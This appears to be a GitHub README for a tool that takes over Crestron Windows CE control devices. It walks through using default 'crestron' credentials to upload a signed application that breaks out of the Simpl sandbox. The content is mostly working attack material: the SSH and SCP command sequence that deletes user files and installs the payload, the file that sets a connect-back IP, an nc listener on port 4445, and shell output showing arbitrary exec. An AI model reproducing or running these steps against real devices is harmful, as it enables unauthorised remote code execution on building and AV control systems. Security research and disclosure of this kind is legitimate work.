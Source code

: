 # crestron
Tools for taking over Crestron Windows CE devices without the need for Crestron Toolbox.

If you have authenticated access, or the default `crestron:<blank>` credentials are still enabled, you can use the provided Simpl application to load a malicious application that breaks out of the sandbox to connect back to you.

In a perfect world, Crestron Simpl applications run in a sandbox and are signed with a special Crestron certificate that is shipped with Crestron Toolbox or the Simpl IDE. However, the application in this repository is a signed Crestron application that breaks out of the Simpl sandbox on supported Crestron Windows CE devices. Windows .NET Compact Framework v3.5 is the expected target.

The ports available to the interface can change depending on the device type, and whether you are looking at the control side or the LAN side. If the device has only the LAN interface connected, it will listen with all ports on that interface. Otherwise, the control ports will be listening on the control interface. The key ports are 21, 22, 23, 843, 41794, or 41795.

```
Brandons-iMac:~ bperry$ nmap 192.168.1.174
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 13:46 CDT
Nmap scan report for DMPS3-7f81812f.attlocal.net (192.168.1.174)
Host is up (0.0036s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
443/tcp  open  https
843/tcp  open  unknown
6510/tcp open  mcer-port
```

This assumes you are starting from a clean slate. If you would like to factory reset the device to ensure nothing weird happens, SSH into the device and run `RESTORE`.
```
mkdir tmp
cd tmp
unzip ../pro3.lpz
ssh crestron@192.168.1.240 del \\User\\*
scp * crestron@192.168.1.240:\\User
ssh crestron@192.168.1.240 copy \\User\\boot.bt \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa_archive.zip \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.bin \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.cdm \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.rte \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpCustomAttributesInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpData.dat \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpHelperInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusLibrary.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusManagerApp.exe \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusObjects.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 progregister -P:all
ssh crestron@192.168.1.240 progreset

```

# Other Devices

If you can telnet or SSH into the device, the command prompt will contain the RackType that you can update boot.bt with.

```
bperry@bperry-Precision-T5610:/tmp/zip$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to 192.168.1.174.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>

```

In boot.bt, the RackType is in the first stanza and by default is the PRO3.

```
[LG_BOOT_DATA]
BinFileName=fdsa.bin
SMWFileName=fdsa.smw
NumberSymbols=15
NumberSignals=33
RouteFileName=fdsa.rte
CUZ=1.007.0017
RackType=PRO3
SymParamVersion=21.007.0017
NumberParameters=3
NumRealIntegralParams=0
NumRealStringParams=3
NVRAMUsed=0

[...snip...]
```

Replacing PRO3 with the device type will ensure the device does not reject the application.

# Using the shell

The shell expects a \User\ip file with the IP address to connect back to. Port 4445 is hardcoded.

```
echo -n 192.168.1.123 > ip
scp ip crestron@192.168.1.174:/User
```

Once the connection is made, you can begin insteracting outside of the sandbox.

```
Brandons-iMac:~ bperry$ nc -l 4445
Connected
 > ls
\Network
\Windows
\Temp
\Program Files
\My Documents
\HTML
\Sys
\Simpl
\Nvram
\FTP
\User
\ROMDISK
\Application Data
\My Recent Documents
\Recycled
\SSHBanner
 >  
 ```
 
 For instance, compared to the sandbox directory list.
 
 ```
 Brandons-iMac:~ bperry$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to dmps3-7f81812f.attlocal.net.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>dir
Directory of \
       [DIR]  09-21-15 08:58:24 FTP
       [DIR]  09-21-15 08:58:24 HTML
       [DIR]  09-21-15 08:58:24 Nvram
       [DIR]  09-21-15 08:58:26 ROMDISK
       [DIR]  09-21-15 08:58:24 Simpl
       [DIR]  09-21-15 09:05:26 SSHBanner
       [DIR]  09-21-15 08:58:24 Sys
       [DIR]  09-21-15 08:58:26 User

DMPS3-4K-150-C>
```

Available commands are `ls`, `pwd`, `exec`, `cat`, `cd`, and `base64`.

On PRO3, for instance, you can run a graphics test executable for demonstration of the issue.

```
 > exec \Windows\cube.exe
```

A spinning cube will replace the Crestron menu on the display.
